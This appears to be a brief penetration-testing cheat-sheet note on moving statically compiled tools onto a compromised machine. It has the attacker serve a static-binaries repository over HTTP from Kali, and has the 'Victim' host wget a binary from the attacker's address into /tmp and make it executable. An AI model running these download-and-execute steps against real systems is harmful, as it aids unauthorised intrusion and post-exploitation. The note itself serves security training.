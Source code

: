 # Static Binaries

## Static Binary Repo

I made a branched of it just in case

[https://github.com/JeffGThompson/static-binaries](https://github.com/JeffGThompson/static-binaries)

**Kali**

```
git clone https://github.com/andrew-d/static-binaries.git
cd static-binaries/binaries/$lookForBinaryYouWant/
python2 -m SimpleHTTPServer 81
```

**Victim**

```
cd /tmp/
wget http://$KALI:81/$binaryYouWant
chmod +x $binaryYouWant
```

